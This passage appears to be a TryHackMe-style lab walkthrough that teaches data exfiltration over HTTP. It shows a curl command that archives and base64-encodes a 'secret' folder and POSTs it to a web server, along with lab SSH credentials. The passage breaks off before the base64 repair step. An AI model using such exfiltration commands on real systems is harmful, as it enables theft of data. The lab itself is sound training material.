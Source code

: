 You can also connect to it from AttackBox using portÂ 2022Â as follow,

Connecting to Victim1 machine from AttackBox  

```markup
thm@attacker$ ssh thm@10.10.39.16 -p 2022
```

The goal is to transfer the folder's content, stored inÂ /home/thm/task6,Â to another machine over theÂ HTTPÂ protocol.

Checking the Secret folder!  

```markup
thm@victim1:~$ ls -l
total 12
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task4
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task5
drwxr-xr-x 1 root root 4096 Jun 19 19:44 task6
drwxr-xr-x 1 root root 4096 Jun 19 19:43 task9
```

Now that we have our data, we will be using theÂ curlÂ command to send anÂ HTTPÂ POST request with the content of the secret folder as follows,

Sending POST data via CURL  

```markup
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

We used theÂ curlÂ command withÂ --dataÂ argument to send a POST request via theÂ fileÂ parameter. Note that we created an archived file of the secret folder using theÂ tarÂ command. We also converted the output of theÂ tarÂ command into base64 representation.

Next, from theÂ **victim1 or JumpBox**Â machine, let's log in to the webserver,Â web.thm.com,Â and check theÂ /tmpÂ directory if we have successfully transferred the required data. Use the followingÂ SSHÂ credentials in order to login into the web:Â thm:tryhackme.

Checking the received data  

```markup
thm@victim1:~$ ssh thm@web.thm.com 
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==
```

Nice! We have received the data, but if you look closely at theÂ http.bs64Â file, you can see it is broken base64. This happens due to the URL encoding over theÂ HTTP. TheÂ +Â symbol has been replaced with empty spaces, so let's fix it using theÂ sedÂ command as follows,

Fixing thehttp.bs64 file!  
